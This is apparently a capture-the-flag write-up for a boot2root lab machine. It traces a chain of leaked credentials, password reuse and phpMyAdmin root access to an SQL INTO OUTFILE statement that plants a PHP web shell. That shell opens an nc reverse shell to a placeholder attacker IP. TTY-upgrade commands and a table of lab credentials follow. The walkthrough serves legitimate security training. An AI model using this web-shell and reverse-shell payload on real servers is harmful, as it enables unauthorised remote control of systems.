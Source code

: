 # Port 443 (HTTPS)

- `https://<IP>/forum/index.php?id=6` leak credentials to access forum as `lmezard`

- User `lmezard` mail address can be found on account info page

- User `lmezard` use same password for `webmail` and `forum`

- User `lmezard` mail box leak credentials to access `phpmyadmin` as `root`

- Adding reverse shell backdoor via `phpmyadmin`:

```sql
SELECT '<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc <ip_addr> 4242 >/tmp/f"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

Once connected, we can upgrade our shell into a full TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#[CTRL+z]
```

```bash
stty raw -echo
fg
#[ENTER]
#[ENTER]
```

We now have a full shell as `www-data`

## Credentials found

### `https://$ip/forum`

| Login | Password |
|-|-|
| `lmezard` | `!q\]Ej?*5K5cy*AJ` |

### `https://$ip/webmail`

| Login | Password |
|-|-|
| `laurie@borntosec.net` | `!q\]Ej?*5K5cy*AJ` |

### `https://$ip/phpmyadmin`

| Login | Password |
|-|-|
| `root` | `Fg-'kKXBj87E:aJ$` |
